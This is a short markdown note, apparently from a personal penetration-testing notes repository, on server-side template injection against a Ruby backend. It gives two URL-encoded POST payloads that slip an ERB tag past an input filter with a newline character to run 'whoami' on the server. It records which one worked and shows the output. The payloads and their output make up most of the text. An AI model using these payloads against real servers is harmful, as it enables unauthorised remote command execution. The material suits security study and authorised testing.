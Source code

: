 # SSTI

### Technique 1

>#### Bypassing an input filter using a New line character (`%0A`)
> - Ruby based backend

**POST Payload 1:** *Failed*

```
form-field=random%0A<%25%3d+system("whoami")+%25>
```

```py
#O/p

random
# No username was printed
```

**POST Payload 2:** *Succeeded*
```
form-field=random%0A<%25%3d+`whoami`+%25>
```
```py
#O/p

random
<USERNAME>
```

> **Learning:** Always <u>*test with multiple payloads*</u> for the same backend.